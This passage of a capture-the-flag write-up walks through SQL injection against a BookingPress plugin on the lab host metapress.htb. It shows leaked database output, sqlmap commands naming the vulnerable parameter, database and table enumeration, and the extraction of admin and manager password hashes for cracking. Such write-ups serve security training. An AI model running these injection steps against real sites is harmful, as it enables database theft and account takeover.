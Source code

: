 \documentclass[11pt]{article}
\begin{document}
\begin{quote}
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[\{``bookingpress\_service\_id'':``10.5.15-MariaDB-0+deb11u1'',
``bookingpress\_category\_id'':``Debian
11'',``bookingpress\_service\_name'':``debian-linux-gnu'',
``bookingpress\_service\_price'':``\$1.00,
''bookingpress\_service\_duration\_val``:''2``,''bookingpress\_service\_duration\_unit``:''3``,
''bookingpress\_service\_description``:''4``,''bookingpress\_service\_position``:''5``,
''bookingpress\_servicedate\_created``:''6``,''service\_price\_without\_currency``:1,''img\_url``:
''\url{http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg}``\}]
\end{quote}

\section{Enumerating databases: Sqlmap}
\label{sec:orgc9272e3}

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

\begin{verbatim}
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -p "total_service" --dbs
\end{verbatim}
That way we can enumerate the databases present. I had problems with this command
since it kept saying that the connection was not stable but i just kept trying
and eventually I could do it.

The databases that we could found are two: blog and information\_schema.
The first one is the most interesting of the two, clearly.

\begin{verbatim}
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -D blog --tables
\end{verbatim}
Now we look inside the blog database and enumerate the tables: there is a lot of them
but the first that catches the eye is wp\_users. After some horrible looking output
we can see that it found two users, admin and manager.
Along side the names we can see the hashes that correspond to the passwords, so we
will copy them to a file and try to crack them.
\end{document}
